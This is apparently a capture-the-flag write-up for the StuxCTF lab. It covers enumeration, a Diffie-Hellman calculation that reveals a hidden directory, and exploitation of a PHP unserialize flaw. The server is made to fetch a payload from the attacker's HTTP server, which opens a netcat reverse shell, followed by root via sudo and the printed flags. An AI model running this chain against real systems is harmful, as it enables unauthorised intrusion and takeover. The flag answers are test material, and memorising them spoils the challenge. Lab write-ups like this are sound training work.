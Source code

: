 # StuxCTF

## enumeration

```bash
nmap $IP -sV -sC -oN nmap
```

ports:

- 22 (ssh)

- 80 (Apache httpd)


```bash
curl $IP -o webpage/index.html # -> Diffie-Hellman values
```



Given the values

$g = 7$, \
$a = 330$, \
$b = 450$, \
$p = 9975298661...251$, \
$g^c = 6091917800...617$


calculate the secret S using Diffie-Hellman: \
$S = (g^c)^a \mod p)^b \mod p$

Using [dh\_solver](./dh_solver.py):

```bash
./dh_solver.py # -> 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```

### "What is the hidden directory?"

==> **47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055**


## website

From here, `$secret_page` will substitute for `$IP/4731502893...055`

Going to `$secret_page` shows a 'Home' button which redirects to `$secret_page/index.php`. \
In the html source is another hint: '/?file=', which seems to be a url parameter.

Trying `$secret_page/?file=user.txt` or `$secret_page/?file=root.txt` sadly only returns 'File no Exist!', however, trying `$secret_page/?file=index.php` returns a 5497 character long hexadecimal string

```bash
curl "$secret_page/?file=index.php" | grep -Eo '^[0-9a-f]+' > secret_text.txt
```

Using [cyberchef](cyberchef.org) with the contents of secret\_text.txt as input and the following recipe:

1. From Hex
2. Reverse
3. From Base64

we get the source code of index.php  -> ./webpage/secret/index.php

On line 22 of ./webpage/secret/index.php is:
```php
unserialize(file_get_contents($file_name));
```

which can be exploited by making the server load malicious serialized php code.


This code can be generated by running exploit.php:
```bash
php exploit.php > exploit.txt
```

## exploitation
```bash
# shell 1
python -m http.server 8080
```
```bash
# shell 2
nc -lnvp 4444
```
```bash
# shell 3
curl "$secret_page/?file=http://$localip:8080/exploit.txt" # upload the exploit

curl "$secret_page/exploit.php" # run the exploit
```

Shell 1 & 3 can then be closed.

```bash
# in shell 2 (reverse shell)
export TERM=xterm
echo "import pty; pty.spawn('/bin/bash')" > /tmp/upgrade.py
python /tmp/upgrade.py

ls /home # -> grecia
ls /home/grecia # -> user.txt
cat /home/grecia/user.txt # -> 0b6044b7807dd100b9e30f1bd09db53fo

sudo -i
pwd # -> /root
ls # -> root.txt
cat root.txt # -> 0028454003b42601548df551b738976c
```

### "user.txt"

==> **0b6044b7807dd100b9e30f1bd09db53f**


### "root.txt"

==> **0028454003b42601548df551b738976c**
